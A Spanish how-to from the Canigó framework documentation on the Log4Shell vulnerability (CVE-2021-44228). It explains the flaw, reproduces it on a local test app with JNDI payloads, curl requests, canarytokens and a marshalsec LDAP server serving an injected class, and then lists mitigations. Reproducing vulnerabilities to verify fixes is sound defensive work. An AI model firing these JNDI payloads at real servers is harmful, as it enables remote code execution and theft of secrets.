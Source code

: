 +++
date        = "2021-12-13"
title       = "Canigó. Vulnerabilidad: CVE-2021-44228 (log4jshell)"
description = "Como correguir la vulnerabilidad CVE-2021-44228 (log4jshell)"
section     = "howtos"
categories  = ["canigo"]
key         = "GENER2022"
+++

Esta vulnerabilidad permite ejecutar código en un servidor remoto, inyectando una petición JNDI `${jndi:(ldap|rmi|etc)}` dentro cualquier variable que se registre en el log del servidor. Para explotar la vulnerabilidad, se siguen estos pasos:

1. En el servidor que aloja la aplicación vulnerable, se registra la información que contiene la carga útil maliciosa, por ejemplo: `${jndi:ldap://[servidor]/[carga útil]}`, donde el servidor está controlado por el atacante y la carga útil contiene el comando a ejecutar.
2. La vulnerabilidad se activa y el servidor vulnerable, solicita al servidor del atacante a través de JNDI el código malicioso.
3. La respuesta del servidor del atacante contiene la ruta a una clase Java maliciosa, por ejemplo: `http://[servidor]/exploit.class`, que se inyecta en el contexto de la aplicación vulnerable.
4. La carga útil inyectada permite al atacante ejecutar código arbitrario.

> fuentes: \
> <https://github.com/YfryTchsGD/Log4jAttackSurface> \
> <https://github.com/christophetd/log4shell-vulnerable-app> \
> <https://www.tarlogic.com/blog/log4shell-vulnerability-cve-2021-44228/> \
> <https://securelist.com/cve-2021-44228-vulnerability-in-apache-log4j-library/105210/> \
> <https://www.randori.com/blog/cve-2021-44228/>

## Como explotar la vulnerabilidad en Canigó

 1- Crear una aplicación con el archetype de Canigó por ejemplo: `CanigoLog4jShellTest`

  ```sh
  # Canigó 3.6
  mvn archetype:generate \ 
  -DarchetypeGroupId=cat.gencat.ctti \
  -DarchetypeArtifactId=plugin-canigo-archetype-rest \
  -DarchetypeVersion=1.7.0 \
  -DartifactId=CanigoLog4jShellTest \
  -DgroupId=cat.gencat.ctti \
  -Dversion=1.0.0 -B
  ```

 2- Modificar el servicio de pruebas: `EquipamentServiceController` para imprimir en el log, los parámetros de entrada del servicio de creación de equipaments

  ```java
  import org.apache.logging.log4j.LogManager;
  import org.apache.logging.log4j.Logger;
  
  private static Logger log = LogManager.getLogger(EquipamentServiceController.class.getName());

  public void saveEquipament(@RequestBody Equipament equipament) {
    log.error("equipament.getNom() {}", equipament.getNom());
    ...
  }
  ```

 3- Iniciar el proyecto creado con el servidor tomcat embebido, por ejemplo:

  ```sh
  mvn clean spring-boot:run

  # or

  mvn clean package && java -jar ./target/CanigoLog4jShellTest.war

  # or

  mvn clean package docker:build \
    && docker run -it --rm \
    --net=host \
    --name="log4jshell-local" \
    --memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
    canigo/app
  ```

### Utilizando el proyecto `canarytokens`

---

> El proyecto de código abierto: `canarytokens` permite generar tokens para explotar vulnerabilidades. \
> Sí al utilizar un token se explota una vulnerabilidad, se envía un correo electrónico con los detalles del acceso \
> <https://docs.canarytokens.org/guide/> \
> <https://github.com/thinkst/canarytokens> \

 4- Generar un token tipo `log4jshell` desde: <https://canarytokens.org/generate#>, por ejemplo:

  ```txt
  ${jndi:ldap://127.0.0.1.xxxxxxxxxxxx.canarytokens.com/a}
  ```

 5- Generar una peticion HTTP Request para crear un `equipament` y en el nombre enviar el token malicioso creado con `canarytokens`

  ```sh
  curl --request POST 'http://127.0.0.1:8080/api/equipaments' \
    --header 'Content-Type: application/json' \
    --data-raw '{ "nom": "${jndi:ldap://127.0.0.1.xxxxxxxxxxxx.canarytokens.com/a}","municipi": "Barcelona"}'
  ```

 6- Verificar en el buzón del correo configurado en `canarytokens` y comprobar el correo con la traza de la conexión remota al servidor de la aplicación

  ![Email exploit test](/images/howtos/log4jshell/email_exploit_alert.png)

  ![Canary tokens exploit details 1](/images/howtos/log4jshell/canary_token_exploit_details1.png)

  ![Canary tokens exploit details 2](/images/howtos/log4jshell/canary_token_exploit_details2.png)

### Utilizando un servidor LDAP

---

> Se requiere: SO Linux, Python3, git, maven, acceso a internet

 4- Iniciar un servidor web que contenga el código malicioso a inyectar

  > Se puede utilizar el proyecto `https://github.com/cybereason/Logout4Shell.git` y modificar la clase `Log4jRCE.java` para agregar cualquier código malicioso que se quiera inyectar en un servidor. \
  > Por ejemplo se puede agregar este código para inyectar en el servidor una traza

  ```java
    String dateNow = ZonedDateTime.now(ZoneId.of("Europe/Madrid")).format(DateTimeFormatter.ofPattern("yyyy-MM-dd'T'HH:mm:ss.SSSZ"));
    System.out.println("Log4JShell - JPJE ----------------------------: " + dateNow);
  ```

  ```sh
  git clone https://github.com/cybereason/Logout4Shell.git
  mvn clean package
  cd target/classes
  python3 -m http.server 8888
  ```

 5- Iniciar un servidor LDAP

  > Se puede utilizar el proyecto `https://github.com/mbechler/marshalsec.git`

  ```sh
  git clone https://github.com/mbechler/marshalsec.git
  mvn clean package -DskipTests
  java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
  ```

 6- Generar una peticion HTTP Request para crear un `equipament` y en el nombre enviar el token malicioso creado con `canarytokens`

  ```sh
  curl --request POST 'http://127.0.0.1:8080/api/equipaments' \
    --header 'Content-Type: application/json' \
    --data-raw '{ "nom": "${jndi:ldap://127.0.0.1:1389/a}","municipi": "Barcelona"}'
  ```

 7- Revisar en el log de la aplicación `CanigoLog4jShellTest` los efectos de explotar la vulnerabilidad

  > Con la vulnerabilidad

  ![LDAP exploit](/images/howtos/log4jshell/log4jshell_trace1.gif)

  > Sin la vulnerabilidad

  ![LDAP no exploit](/images/howtos/log4jshell/log4jshell_trace2.gif)

  > Se puede apreciar en el log de `CanigoLog4jShellTest` la traza generada por el código inyectado. Se podria obtener por ejemplo, todas las variables de entorno, o los archivos de configuración y enviarlos por correo

## Como solventar/mitigar la vulnerabilidad

---

 1- Sustituir la version de la dependencia de la librería `log4j` (tiempo de compilación). Por ejemplo:

  1-1 modificando el: `pom.xml` (Opción recomendada) (requiere recompilar y redesplegar)

  ```xml
  <properties>
    <log4j2.version>2.15.0</log4j2.version>
  </properties>
  ```

  1-2 inyectando la variable durante la construcción de la aplicación (requiere recompilar y redesplegar)

  ```sh
  mvn -Dlog4j2.version=2.15.0 clean package && java -jar ./target/CanigoLog4jShellTest.war
  ```

 2- Configurar la variable: `log4j2.formatMsgNoLookups (tiempo de ejecución)

  2-1 inyectando la variable (sirve para: 2.10 >= log4j >= 2.14.1) (requiere redesplegar)

  ```sh
  mvn clean package && java -Dlog4j2.formatMsgNoLookups=true -jar ./target/CanigoLog4jShellTest.war
  ```

  2-2 agregando una variable de entorno (sirve para: 2.10 >= log4j >= 2.14.1) (requiere redesplegar)

  > fuente: https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/

  ```sh
  mvn clean package docker:build \
    && docker run -it --rm \
    --net=host \
    --name="log4jshell-local" \
    --memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
    --env LOG4J_FORMAT_MSG_NO_LOOKUPS=true \
    canigo/app
  ```

 3- Modificar el patron de trazas configuradas en el archivo: `log4j.xml` (sirve para: 2.0-beta1 >= log4j >= 2.14.1) (requiere recompilar y redesplegar), por ejemplo:

  > fuente: https://kb.vmware.com/s/article/87093

  ```sh
  ## cambiar:
  <PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m%n" />

  ## por:
  <PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m{nolookups}%n" />
  ```

 4- Eliminar la clase `maliciosa` (sirve para: 2.0-beta1 >= log4j >= 2.14.1) (requiere recompilar y redesplegar), por ejemplo:

  ```sh
  zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
  ```

<br/>
